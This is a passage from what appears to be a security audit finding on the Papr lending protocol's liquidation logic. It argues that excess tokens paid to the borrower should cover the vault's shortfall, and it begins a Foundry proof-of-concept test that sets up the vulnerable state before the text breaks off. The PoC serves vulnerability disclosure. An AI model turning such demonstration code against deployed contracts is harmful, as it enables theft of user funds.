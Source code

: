 ```solidity
if (excess > 0) {
    remaining = _handleExcess(excess, neededToSaveVault, debtCached, auction);
}
```

**The tokens being transferred to the borrower in step 8 should be used to fill the shortfall of the vault.**
Test code for PoC:

```solidity
diff --git a/test/paprController/PoC.sol b/test/paprController/PoC.sol
new file mode 100644
index 0000000..0b12914
--- /dev/null
+++ b/test/paprController/PoC.sol
@@ -0,0 +1,147 @@
+// SPDX-License-Identifier: GPL-2.0-or-later
+pragma solidity ^0.8.17;
+
+import "forge-std/console.sol";
+import {ERC721} from "solmate/tokens/ERC721.sol";
+
+import {ReservoirOracleUnderwriter} from "../../src/ReservoirOracleUnderwriter.sol";
+import {INFTEDA} from "../../src/NFTEDA/extensions/NFTEDAStarterIncentive.sol";
+
+import {BasePaprControllerTest} from "./BasePaprController.ft.sol";
+import {IPaprController} from "../../src/interfaces/IPaprController.sol";
+
+contract PoC is BasePaprControllerTest {
+    event ReduceDebt(address indexed account, ERC721 indexed collateralAddress, uint256 amount);
+    event Transfer(address indexed from, address indexed to, uint256 amount);
+
+    INFTEDA.Auction auction1;
+    INFTEDA.Auction auction2;
+    address purchaser = address(2);
+
+    function setUp() public override {
+        super.setUp();
+
+        // mint a second collateral
+        nft.mint(borrower, collateralId+1);
+        // add collaterals, loan max and sells
+        _addCollaterals();
+        _loanMaxAndSell();
+        // borrower now has 2.9... USD
+        assertGt(underlying.balanceOf(borrower), 2.9e6);
+
+        // prepare purchaser
+        vm.startPrank(purchaser);
+        safeTransferReceivedArgs.debt = controller.maxDebt(oraclePrice) - 10;
+        safeTransferReceivedArgs.proceedsTo = purchaser;
+        safeTransferReceivedArgs.swapParams.minOut = 0;
+        for (uint i = 0; i < 3; i ++) {
+            nft.mint(purchaser, 10+i);
+            nft.safeTransferFrom(purchaser, address(controller), 10+i, abi.encode(safeTransferReceivedArgs));
+        }
+        vm.stopPrank();
+        // purchaser now has 4.4... papr
+        assertGt(debtToken.balanceOf(purchaser), 4.4e18);
+
+        // make max loan liquidatable
+        vm.warp(block.timestamp + 1 days);
+        priceKind = ReservoirOracleUnderwriter.PriceKind.TWAP;
```